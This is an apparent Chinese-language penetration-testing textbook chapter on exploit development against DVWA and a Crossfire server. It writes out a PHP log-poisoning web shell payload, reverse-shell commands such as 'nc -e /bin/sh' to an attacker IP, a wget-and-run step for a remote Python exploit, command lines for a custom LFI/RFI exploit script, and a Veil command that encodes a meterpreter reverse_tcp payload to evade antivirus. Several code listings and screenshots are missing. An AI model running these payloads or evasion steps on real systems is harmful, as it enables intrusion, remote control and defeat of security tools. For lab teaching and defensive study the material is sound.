# 漏洞开发

在本章中，我们将探讨**利用程序开发**。我们将了解如何使用 Python 开发自定义利用程序。虽然我们的主要重点将是在 Python 中开发利用程序，但我们还将看到如何使用 Ruby 开发利用程序，以扩展 Metasploit 框架的功能。

利用程序只是一段代码，编写以利用漏洞，以便可以在不同环境中重用相同的代码。编写利用程序的目标是确保代码稳定，并且将给予攻击者他们所需的控制。应该注意，利用程序是针对特定类型的漏洞开发的。首先了解漏洞和利用它所需的手动步骤非常重要。一旦我们对此有清晰的理解，我们就可以继续自动化整个过程并开发一个利用程序。

本章将涵盖以下主题：

+   在基于 Web 的漏洞上编写脚本利用。

+   开发一个 Metasploit 模块来利用网络服务。

+   编码 shell 代码以避免检测。

# 在基于 Web 的漏洞上编写脚本利用

在本节中，我们将使用**Damn Vulnerable Web Application** (**DVWA**)的一个示例。我们将为本地和远程文件包含编写一个利用程序，并确保通过执行利用程序获得反向 shell。正如我们所知，DVWA 有许多漏洞，其中包括**本地文件包含** (**LFI**)和**远程文件包含** (**RFI**)。

本地文件包含是一种通常在 PHP 应用程序中发现的漏洞类别，是由于对`include()`和`require()`函数的不正确使用而引入的。`include()`函数用于在当前 PHP 文件中包含一个 PHP 模块，从它被调用的地方。有时开发人员会从 Web 应用程序中以输入参数的形式获取要包含的文件的名称，这可能会被攻击者滥用。攻击者可以调整输入参数，并读取系统文件，这些文件可能是他们无法访问的，比如`/etc/passwd`。相同的漏洞可以被升级以从服务器获取反向 shell。如果攻击者能够读取服务器的日志文件，通常位于`/var/log/apache2/access.log`路径下，并且攻击者发送一个伪造的`GET`请求，比如`http://myvulsite.com?id=<?php shell_exec($_GET['cmd']) ?>`，应用程序通常会返回一个错误消息，说请求的 URL/资源不存在。然而，这将被记录在服务器的`access.log`文件中。借助 LFI，如果攻击者在随后的请求中尝试加载访问日志文件，比如`http://myvulsite.com/admin.php?page=/var/log/appache2/access.log?cmd=ifconfig%00`，它会加载日志文件，其中包含一个 PHP 代码片段。这将由 PHP 服务器执行。由于攻击者正在指定 CMD 参数，这将在 shell 中执行，导致在服务器上执行意外的代码。RFI 漏洞更容易执行。让我们通过启动 DVWA 应用程序并尝试手动利用 LFI 漏洞来将我们讨论过的内容付诸实践。

应该注意，我们已经看到如何在第十二章中使用 Python 编写网络服务的利用程序，*逆向工程 Windows 应用程序*，在那里我们编写了一个自定义的 Python 利用程序来利用 SLmail 服务。请参考该章节，以刷新您对针对缓冲区溢出的基于服务的利用程序开发的知识。

# 手动执行 LFI 利用

让我们开始启动 Apache 服务器：

```py
service apache2 start
```

让我们尝试手动浏览应用程序，看看漏洞在哪里：


前面屏幕中浏览的 URL 是`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=include.php`。可以看到，请求的 URL 有一个 page 参数，它将要包含的页面作为参数。如果我们查看应用程序的源代码，我们可以看到`include()`函数的实现如下：


前面的截图将文件变量初始化为在`GET`请求中获得的参数，没有任何过滤。

下一个截图使用与`include()`函数下相同的文件变量如下：


如上所示，`include()`函数包含`$file`变量的任何值。让我们尝试利用这一点，通过访问以下 URL 读取我们可能无法访问的任何系统文件，比如`/etc/passwd`：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/etc/passwd`



现在让我们进一步升级攻击，尝试从 LFI 漏洞中获得 shell。让我们使用`Netcat`来为我们毒害日志文件，以便从服务器获得 shell。

应该注意的是，我们不应该尝试通过 URL 毒害日志文件。这样做将使我们的有效负载编码为 URL 编码，使攻击无效。

让我们首先尝试查看 Apache 日志文件的内容，并在我们的浏览器窗口中使用以下 URL 加载它：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log`：



如前面的截图所示，日志文件的内容显示在页面上。现在让我们继续尝试使用`netcat`毒害日志文件。首先，按以下方式启动 Netcat：`nc 192.168.1.102 80`。一旦启动，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`


中了！我们现在毒害了我们的日志文件。现在让我们尝试发出诸如`ifconfig`之类的命令，看看是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。

注意`cmd`参数。我们发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>`，翻译为`<?php echo shell_exec(ifconfig)?>`

在下面的截图中突出显示的区域显示我们的命令已成功执行。


现在让我们尝试从相同的`cmd`参数中获得一个反向 shell。我们将使用`netcat`来获得反向 shell。如果服务器上没有安装 netcat，我们也可以使用 Python 来获得 shell。让我们看看两者的效果。

# 使用 Netcat 进行反向 shell

在这种情况下，URL 和命令将如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`监听器，它将在端口`4444`上监听传入的连接。让我们在另一个终端上执行`nc -nlvp 4444`命令。现在，浏览 URL，看看我们是否得到了 shell：



浏览此 URL 后，让我们尝试查看我们生成的`netcat`监听器，看看我们是否获得了 shell：


可以验证，我们得到了一个低权限的 shell，`www-data`。

# 使用 Python 进行反向 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 来获得 shell。由于底层服务器是基于 Linux 的，默认情况下会安装 Python。因此，我们将修改我们的利用命令如下：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

可以看到，我们将创建一个用 Python 编写的漏洞利用文件，并在攻击者机器上提供服务。由于在当前示例中，攻击者和受害者都在同一台机器上，URL 是`http://192.168.1.102`。漏洞利用文件的内容如下所示：


下载漏洞利用文件将完成我们利用过程的第一步。第二步将是执行它并获取回监听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们看看这个实际操作：

1.  在`/tmp`文件夹中下载并保存 Python 漏洞利用程序：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

1.  验证是否已成功保存：


1.  在`444`上启动`netcat`监听器：`nc -nlvp 4444`。

1.  启动调用`exp.py`脚本连接回攻击者主机的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

让我们看看我们的监听器是否已经获得了 shell：


从前面的截图中可以看到，我们已成功获得了 shell。

# 漏洞利用开发（LFI + RFI）

到目前为止，我们已经学习了如何手动利用 LFI 漏洞。让我们继续尝试开发一个通用的漏洞利用程序，它将利用 LFI 漏洞以及其他相同的应用程序。在本节中，我们将看到如何编写一个了不起的漏洞利用程序，它将利用 DVWA 应用程序中的 RFI 和 LFI 漏洞。尽管这个漏洞利用程序是为 DVWA 应用程序编写的，但我尝试使它通用化。通过一些调整，我们也可以尝试将其用于其他可能存在 LFI 和 RFI 漏洞的应用程序。

让我们安装前提条件：

```py
pip install BeautifulSoup
pip install bs4
pip install selenium
sudo apt-get install libfontconfig
apt-get install npm
npm install ghostdriver
wget https://bitbucket.org/ariya/phantomjs/downloads/phantomjs-2.1.1-linux-x86_64.tar.bz2
tar xvjf phantomjs-2.1.1-linux-x86_64.tar.bz2
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/bin/
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/local/bin/
```

安装`phantomjs`后，我们需要在控制台上执行以下命令：**`unset QT_QPA_PLATFORM`**。这是用于处理`phantomjs`在 Ubuntu 16.04 版本上使用时抛出的错误，错误信息如下：`Message: Service phantomjs unexpectedly exited. Status code was: -6`。

# LFI/RFI 漏洞利用代码

让我们看看下面的代码，它将利用 DVWA 中的 LFI/RFI 漏洞：



在下面的代码片段中，第 65 至 74 行检查要测试的应用程序是否需要身份验证才能利用漏洞：



如果需要身份验证，则从用户提供的 cookie 值设置在 Selenium Python 浏览器/驱动程序中，并使用 cookie 数据调用 URL 以获得有效会话：



第 90 至 105 行用于控制 LFI 漏洞的工作流程。这一部分有一系列我们手动执行的步骤。在第 91 行，我们准备了一个恶意 URL，将毒害日志文件并在`access.log`文件中放置一个 PHP 代码片段。在第 93 行，我们将该恶意 URL 放入一个名为`exp.txt`的文本文件中，并要求 Netcat 从该文件中获取输入。请记住，我们在之前毒害`access.log`文件时使用了`netcat`；这里将重复相同的操作。在第 97 行，我们要求`netcat`连接到受害者服务器的`80`端口，从`exp.txt`文件中获取输入，并将该输入发送到受害者服务器，以便毒害日志。我们通过创建一个 bash 脚本`exp.sh`来实现这一点。在第 99 行，我们调用这个 bash 脚本，它将调用`netcat`并导致`netcat`从`evil.txt`文件中获取输入，从而毒害日志。在第 103 行，我们设置了漏洞利用 URL，我们将让我们模拟的 selenium 浏览器访问，以便给我们一个反向 shell：


在第 115 行，我们正在调用一个进程，该进程将使浏览器使用`start()`方法向一个带有有效载荷的易受攻击页面发出请求，在第 116 行之下。但在实际访问利用之前，我们需要设置一个 netcat 监听器。第 119 行设置了一个 Netcat 监听器，并且我们在`send_exp()`方法的定义中引入了五秒的时间延迟，给 netcat 启动的时间。一旦启动，有效载荷将通过`send_exp()`方法在第 61 行之下传递。如果一切顺利，我们的监听器将获得 shell。

107-113 行处理漏洞的 RFI 部分。要利用 RFI，我们需要在攻击者机器上创建一个名为`evil.txt`的恶意文件，它将传递 PHP 有效载荷。创建后，我们需要将它放在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效载荷传递 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们传递我们的有效载荷，然后启动 netcat 监听器。

上述代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```py
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 利用

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

上述命令将产生如下截图所示的输出：


如图所示，我们成功获得了`www-data`的低权限 shell。

# 执行 RFI 利用

执行和利用 RFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444 0 0
```

上述命令将产生如下截图所示的输出：



如我们所见，我们成功获得了 RFI 漏洞的 shell。

# 开发一个 Metasploit 模块来利用网络服务

在本节中，我们将看到如何制作一个 Metasploit 利用模块来利用给定的漏洞。在这种情况下，我们将专注于一个名为 Crossfire 的游戏应用程序的缓冲区溢出漏洞。为了编写自定义的 Metasploit 模块，我们需要将它们放在特定的目录中，因为当我们在 Metasploit 中使用`use exploit /....`命令时，默认情况下，框架会在默认的 Metasploit 利用目录中查找可用的模块。如果它在那里找不到给定的利用，那么它会在扩展模块目录中搜索，该目录位于以下路径：`/root/msf4/modules/exploits`。让我们创建路径和一个自定义目录。我们将打开我们的 Kali 虚拟机并运行以下命令：

```py
mkdir -p ~/.msf4/modules/exploits/custom/cf
cd ~/.msf4/modules/exploits/custom/cf
touch custom_cf.rb
```

上述命令将在/root/.msf4/modules/exploits/custom/cf 目录中创建一个名为`custom_cf`的文件。

现在，让我们编辑`custom_cf.rb`文件，并将以下内容放入其中：





上述提到的代码片段非常简单。它试图利用 Crossfire 应用程序中存在的缓冲区溢出漏洞。Metasploit 为其利用模块定义了一个模板，如果我们要在 Metasploit 中编写模块，我们需要根据我们的需求调整模板。上述模板是用于缓冲区溢出类漏洞的模板。

我们在之前的章节中详细研究了缓冲区溢出。根据我们所学到的，我们可以说要利用缓冲区溢出漏洞，攻击者必须了解以下内容：

+   缓冲区空间可以容纳的有效载荷大小。

+   堆栈的返回地址，必须被注入漏洞利用代码的缓冲区地址所覆盖。实际的返回地址会有所不同，但可以计算出覆盖返回地址的有效负载偏移量。一旦我们有了偏移量，我们就可以放置我们能够注入漏洞利用程序的内存位置的地址。

+   应用程序识别的一组字符，可能会妨碍我们的漏洞利用程序的执行。

+   所需的填充量。

+   架构和操作系统的详细信息。

攻击者为了获得上述项目，会执行一系列步骤，包括模糊测试、偏移计算、返回地址检查、坏字符检查等。如果已知上述值，攻击者的下一步通常是生成编码的有效负载并将其发送到服务端并获得一个反向 shell。如果上述值未知，Metasploit 提供了一个缓冲区溢出模板，可以直接插入并使用这些值，而无需我们从头开始编写自定义代码。

讨论中的应用程序 Crossfire 已经在离线状态下进行了模糊测试和调试。根据模糊测试结果，获得的返回地址或 EIP 的值为`0X0807b918`。换句话说，这意味着如果我们溢出缓冲区，漏洞利用代码将被放置在以下地址的位置：`0X0807b918`。此外，如上所示，指定的填充量为 300（空格）。我们还指定了坏字符：`\x00\x0a\x0d\x20`。除此之外，我们还指定了平台为 Linux。

请注意：坏字符是程序字符集无法识别的字符，因此它可能使程序以意外的方式运行。为了找出正在测试的底层软件的常见坏字符，最成功的方法是反复试验。我通常用来找出常见坏字符的方法是将所有唯一字符发送到应用程序，然后使用调试器，检查寄存器级别发生了哪些字符变化。发生变化的字符可以进行编码和避免。

因此，在第 43 行，当我们调用`payload.invoke`命令时，Metasploit 内部创建一个反向 Meterpreter TCP 有效负载并对其进行编码，返回一个端口为`4444`的 shell。让我们尝试看看这个过程：

1.  首先，让我们安装并启动 Crossfire 应用程序。可以在以下网址找到易受攻击版本的 Crossfire 应用程序[`osdn.net/projects/sfnet_crossfire/downloads/crossfire-server/1.9.0/crossfire-1.9.0.tar.gz/`](https://osdn.net/projects/sfnet_crossfire/downloads/crossfire-server/1.9.0/crossfire-1.9.0.tar.gz/)。下载并使用以下命令解压缩：

```py
 tar zxpf crossfire.tar.gz
```

1.  然后，按以下方式启动易受攻击的服务器：



现在继续启动 Metasploit。导出我们创建的模块，并尝试利用易受攻击的服务器：



正如我们所看到的，我们开发的漏洞利用程序完美地运行，并为我们提供了受害者机器的反向 shell，而在我们的情况下，这台机器与我们正在使用的机器相同。

# 对 shell 代码进行编码以避免检测

现在假设我们已经在我们正在测试的底层服务中发现了一个漏洞。然而，在这种情况下，该服务器已安装了杀毒软件。任何优秀的杀毒软件都将包含所有知名漏洞的签名，通常几乎所有 Metasploit 漏洞利用模块的签名都会存在。因此，我们必须使用一种可以规避杀毒软件检测的方法。这意味着我们需要使用某种编码或其他方法来传递我们的有效负载，以避免杀毒软件的检测。我们可以通过三种不同的方式来做到这一点：

1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义利用程序。这种方法很有用，因为自定义利用程序不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共利用程序，并进行大量修改以改变其产生的签名。我们在 Web 利用案例中开发的利用程序都是从头开始编写的，理论上不应该被任何 AV 检测到。

1.  第二种方法是将我们的有效载荷/利用程序注入到底层系统的进程内存中。这样做将在内存中执行代码，并且大多数防病毒软件都不会检测到。

1.  第三种方法是利用编码来防止被检测。在本节中，我们将看到如何利用一个非常强大的编码框架 VEIL 来制作一个可能逃避 AV 检测的有效载荷。

# 下载和安装 Veil

应该注意，Veil 已预装在最新版本的 Kali Linux 中。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```py
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

一旦 Veil 成功安装，生成 Veil 编码有效载荷就是一个非常简单的任务。在使用 Veil 时，背后发生的事情是，它试图使利用代码变得神秘和随机，以便基于签名的检测工作的 AV 可能会被利用的随机性和神秘性所愚弄。有两种方法可以做到这一点。一种方法是使用 Veil 提供的交互式 shell。这可以通过输入命令`veil`，然后在规避模块下选择一个有效载荷来调用。另一个更简单的选择是在命令行中指定所有选项，如下所示：

```py
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```

上面的命令将使用 Veil 的有效载荷编号`41`来对 Metasploit 模块`windows/meterpreter/reverse_tcp`进行编码。这将产生以下输出：



上面的截图显示了 Veil 将对其进行编码并可以传递给受害者以查看其是否逃避防病毒软件的利用程序。如果没有，那么我们必须使用 Veil 的交互版本来调整有效载荷参数，以生成更独特的签名。您可以在“进一步阅读”部分的链接中找到有关 Veil 的更多信息。

# 总结

在本章中，我们学习了开发自定义利用程序来利用 Web 和网络服务。我们还讨论了如何从防病毒软件中逃避我们的利用。此外，我们还探讨了各种 Web 漏洞，如 LFI 和 RFI，并讨论了如何提升这些漏洞以从受害者那里获得反向 shell。重要的是要理解，利用开发需要对潜在漏洞的深入理解，我们应该始终尝试制作可重用的通用利用程序。请随意修改我们讨论的利用代码，使其通用化，并尝试在其他应用程序中使用它们。

在下一章中，我们将走出渗透测试生态系统，了解更多关于安全运营中心（SOC）或网络安全监控生态系统的信息。我们将了解什么是网络威胁情报以及如何利用它来保护组织免受潜在威胁。我们还将了解如何将网络威胁情报自动化，以辅助 SIEM 工具的检测能力。

# 问题

1.  还可以使用自定义利用程序利用哪些其他基于 Web 的漏洞？

1.  如果一个攻击向量失败，我们如何改进开发的利用代码以尝试其他可能性？

# 进一步阅读

+   Python 中的利用程序开发：[`samsclass.info/127/127_WWC_2014.shtml`](https://samsclass.info/127/127_WWC_2014.shtml)

+   Python 漏洞开发辅助：[`github.com/longld/peda`](https://github.com/longld/peda)

+   创建 Metasploit 模块：[`github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules`](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)

+   Veil：[`www.veil-framework.com/veil-tutorial/`](https://www.veil-framework.com/veil-tutorial/)
